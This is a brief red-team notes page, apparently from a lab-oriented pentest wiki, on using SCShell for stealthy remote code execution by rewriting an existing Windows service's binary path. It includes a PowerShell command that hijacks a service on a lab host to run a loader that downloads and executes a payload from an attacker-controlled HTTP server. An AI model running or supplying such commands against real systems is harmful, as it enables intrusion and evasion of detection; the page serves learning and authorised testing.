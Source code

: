 # SCShell

[SCShell](https://github.com/Mr-Un1k0d3r/SCShell) can be used as a stealthier alternative to PsExec for RCE. It leverages the `ChangeServiceConfigA` API to temporarily modify an existing service's configuration, execute the specified payload, and then restore the original service settings. Since it avoids creating new services and doesn't rely on network shares or SMB, it offers improved operational security compared to PsExec.

{% code overflow="wrap" %}
```powershell
# Modify the service's path to achieve RCE
scshell -t 80 dcorp-adminsrv ssh-agent 'c:\windows\system32\cmd.exe /c start /b c:\windows\temp\binloader.exe <http-server-IP> <port> dcorp-adminsrv_tcp.bin'
```
{% endcode %}
